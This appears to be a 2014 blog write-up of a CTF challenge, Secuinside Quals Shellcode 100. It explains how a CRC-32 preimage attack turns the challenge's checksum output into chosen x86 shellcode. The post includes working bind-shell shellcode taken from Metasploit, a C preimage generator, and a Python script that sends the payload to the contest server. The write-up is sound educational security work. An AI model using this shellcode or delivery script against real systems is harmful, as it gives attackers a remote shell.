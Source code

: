 ```yaml
---
layout: post
title: "Secuinside Quals 2014: Shellcode 100"
date: 2014-06-02 04:57:01 +0000
permalink: /2014/06/02/secuinside-quals-2014-shellcode-100/
category: Security
tags: CTF,Secuinside,Security
---
```

This is a level that, at first, seemed like it would be extremely simple, but then turned out to be far more complicated than expected.  We were provided a zip file containing a python script and an elf binary.

Disassembling the binary reveals a very basic program:

    / (fcn) sym.main 165
    |                0x0804847d    55           push ebp
    |                0x0804847e    89e5         mov ebp, esp
    |                0x08048480    83e4f0       and esp, 0xfffffff0
    |                0x08048483    83ec30       sub esp, 0x30
    |                0x08048486    8b450c       mov eax, [ebp+0xc]
    |                0x08048489    83c004       add eax, 0x4
    |                0x0804848c    8b00         mov eax, [eax]
    |                0x0804848e    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048376 (fcn.08048376)
    |                ; CODE (CALL) XREF from 0x08048370 (fcn.08048366)
    |                0x08048491    e8dafeffff   call 0x108048370 ; (sym.imp.atoi)
    |                   sym.imp.atoi(unk)
    |                0x08048496    89442428     mov [esp+0x28], eax
    |                0x0804849a    c7442424000. mov dword [esp+0x24], 0x0
    |                0x080484a2    c7442408040. mov dword [esp+0x8], 0x4
    |                0x080484aa    8d442424     lea eax, [esp+0x24]
    |                0x080484ae    89442404     mov [esp+0x4], eax
    |                0x080484b2    8b442428     mov eax, [esp+0x28]
    |                0x080484b6    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048330 (fcn.0804832c)
    |                0x080484b9    e872feffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x080484be    8b442424     mov eax, [esp+0x24]
    |                0x080484c2    c7442414000. mov dword [esp+0x14], 0x0
    |                0x080484ca    c7442410fff. mov dword [esp+0x10], 0xffffffff
    |                0x080484d2    c744240c220. mov dword [esp+0xc], 0x22
    |                0x080484da    c7442408070. mov dword [esp+0x8], 0x7
    |                0x080484e2    89442404     mov [esp+0x4], eax
    |                0x080484e6    c7042400000. mov dword [esp], 0x0
    |                ; CODE (CALL) XREF from 0x08048350 (fcn.08048346)
    |                0x080484ed    e85efeffff   call 0x108048350 ; (sym.imp.mmap)
    |                   sym.imp.mmap()
    |                0x080484f2    8944242c     mov [esp+0x2c], eax
    |                0x080484f6    8b442424     mov eax, [esp+0x24]
    |                0x080484fa    89442408     mov [esp+0x8], eax
    |                0x080484fe    8b44242c     mov eax, [esp+0x2c]
    |                0x08048502    89442404     mov [esp+0x4], eax
    |                0x08048506    8b442428     mov eax, [esp+0x28]
    |                0x0804850a    890424       mov [esp], eax
    |                0x0804850d    e81efeffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x08048512    31c0         xor eax, eax
    |                0x08048514    31c9         xor ecx, ecx
    |                0x08048516    31d2         xor edx, edx
    |                0x08048518    31db         xor ebx, ebx
    |                0x0804851a    31f6         xor esi, esi
    |                0x0804851c    31ff         xor edi, edi
    \                0x0804851e    ff64242c     jmp dword [esp+0x2c]

It takes a single argument, an integer, which it uses as a file descriptor for input.  It then reads 4 bytes from the file descriptor, mmap's an anonymous block of memory of that size with RWX permissions, then reads that many bytes from the file descriptor into the mapped region, and finally jumps to the map region.  So, in summary, read shellcode length, read shellcode, then jump to shellcode.

So, let's look at the python script responsible for launching the program and reading the input.

    #!/usr/bin/python
    import os, signal, struct, binascii
    from sys import stdin, stdout
    
    UI = lambda a : struct.unpack('I', a)[0]
    PI = lambda a : struct.pack('I', a)
    
    def crc32(data, salt) :
        return PI(binascii.crc32(salt + data) & 0xffffffff)
    
    def main() :
        signal.alarm(25)
    
        salt = os.urandom(10)
        print 'salt:', salt.encode('hex')
        stdout.flush()
    
        n = UI(stdin.read(4))
        data = ''.join(crc32(stdin.read(UI(stdin.read(4))), salt) for _ in xrange(n))
    
        fi, fo = os.pipe()
        if not os.fork() :
            os.execl('/home/sc/thisisnotbad', 'thisisnotbad', '%d' % fi)
        else :
            os.write(fo, PI(len(data)))
            os.write(fo, data)
    
    if __name__ == '__main__' :
        main()

As you can tell, it provides a 10 byte salt, then reads in 4 bytes (`n`), then finally reads `n` blocks prefixed by a 4-byte length.  Next, for each block, it computes the crc32 of the block with the salt prepended.  Finally, the crc32s are concatenated as the shellcode to be executed.

So, to get useful shellcode, we have to mount a preimage attack on CRC-32.  Fortunately, CRC-32 is not a cryptographically secure hash, and [Julien Tinnes has done the heavy lifting for us](https://code.google.com/p/tweakcrc/).  So, we can take our shellcode as the desired CRC32s and compute the preimage of salt+preimage vector (4 bytes), then break the result into 4 byte chunks and send them along with appropriate lengths.

I wrote a little C program to use the calcvect.c from tweakcrc to compute the preimages given the salt, then used python for all the socket communications. (Because why do sockets in C when you can avoid it?)

    #!c
    #include "crc32.h"
    #include <string.h>
    #include <stdio.h>
    #include <arpa/inet.h>
    
    /*
    const char *shellcode = "\x31\xc0\x50\x68"
                            "\x2f\x2f\x73\x68"
                            "\x68\x2f\x62\x69"
                            "\x6e\x89\xe3\x50"
                            "\x53\x89\xe1\xb0"
                            "\x0b\xcd\x80\x90";
    */
    
    unsigned char shellcode[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a"
    "\x02\x89\xe1\xb0\x66\xcd\x80\x5b"
    "\x5e\x52\x68\x02\x00\x16\x9d\x6a"
    "\x10\x51\x50\x89\xe1\x6a\x66\x58"
    "\xcd\x80\x89\x41\x04\xb3\x04\xb0"
    "\x66\xcd\x80\x43\xb0\x66\xcd\x80"
    "\x93\x59\x6a\x3f\x58\xcd\x80\x49"
    "\x79\xf8\x68\x2f\x2f\x73\x68\x68"
    "\x2f\x62\x69\x6e\x89\xe3\x50\x53"
    "\x89\xe1\xb0\x0b\xcd\x80\x90\x90";
    
    
    #define SC_LEN 80
    #define CHUNK_SIZE 4
    
    char shellcode_out[SC_LEN];
    
    char tmpbuf[14];
    
    unsigned int    tweakcrc(void *map, int length, unsigned int target, unsigned int offset);
    
    
    void decode_hex(char *dst, const char *src) {
      int i;
      for (i=0; i<strlen(src)/2; i ++)
        sscanf(&(src[i*2]), "%2hhx", &dst[i]);
    }
    
    
    int main(int argc, char **argv) {
      int i;
      int target;
      decode_hex(tmpbuf, argv[1]);
      gen_table();
    
      for (i=0; i<(SC_LEN/CHUNK_SIZE); i++){
        *(int *)(tmpbuf + 10) = 0;
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        target = *((int *)&shellcode[i*CHUNK_SIZE]);
        //target = htonl(target);
        //fprintf(stderr, "Target: %08x\n", target);
        tweakcrc(tmpbuf, 14, target, 10);
        
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        memcpy(&shellcode_out[i*CHUNK_SIZE], tmpbuf+10, 4);
      }
    
      for (i=0; i<SC_LEN; i++)
        printf("%02hhx", shellcode_out[i]);
      printf("\n");
      return 0;
    }

You might notice a commented out shellcode.  At first, I just tried a basic x86 shell exec, but stdin/stdout do not seem to connect through to the shellcode.  I didn't dig into why, just replaced my shellcode with `linux/x86/shell_bind_tcp` from Metasploit.  

To chunk and send my payload:

    #!python
    import socket
    import subprocess
    import struct
    import binascii
    
    
    def crc32(data, salt):
      #print (salt+data).encode('hex')
      v = struct.pack('I', binascii.crc32(salt + data) & 0xffffffff)
      #print v.encode('hex')
      return v
    
    REMOTE = ('54.178.232.195', 5757)
    #REMOTE = ('localhost', 5555)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(REMOTE)
    print 'Connected.'
    salt = s.recv(1024).strip().split(':')[1].strip()
    print 'Salt: %s' % salt
    
    shellcode = subprocess.check_output(
        ('./shellcode', salt)).strip()
    print 'Shellcode: %s' % shellcode
    shellcode = shellcode.decode('hex')
    
    def send(what):
      print what.encode('hex')
      return s.send(what)
    
    def chunks(sc):
      return [sc[x:x+4] for x in xrange(0, len(sc), 4)]
    
    nc = len(shellcode)/4
    
    shellcode = ''.join('\x04\x00\x00\x00' + c for c in chunks(shellcode))
    
    l = send(struct.pack('I', nc) + shellcode)
    print 'Shellcode %d done.' % l

You might notice both programs have a lot of debugging print statements.  Getting the endianness just right, tweaking the payload chunking, etc., consumed far more time than figuring out what the problem was.
